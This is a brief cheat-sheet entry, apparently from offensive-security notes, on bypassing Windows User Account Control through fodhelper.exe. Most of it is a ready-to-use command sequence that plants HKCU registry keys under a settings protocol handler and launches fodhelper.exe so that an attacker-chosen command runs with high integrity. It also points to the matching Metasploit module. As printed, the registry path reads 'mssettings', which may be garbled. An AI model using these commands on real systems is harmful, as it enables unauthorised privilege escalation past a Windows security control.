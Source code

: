# UAC

### Bypass: FodHelper

Fodhelper is an application for region specific keyboard settings and runs as a high integrity process.

Creating the following registry keys will run a custom attacker controlled command as high integrity \(here powershell.exe\):

```text
New-Item -Path HKCU:\Software\Classes\mssettings\shell\open\command -Value powershell.exe –Force
New-ItemProperty -Path HKCU:\Software\Classes\mssettings\shell\open\command -Name DelegateExecute -PropertyType String -Force
C:\Windows\System32\fodhelper.exe
```

This is also integrated in metasploit \(exploit/windows/local/bypassuac\_fodhelper\).

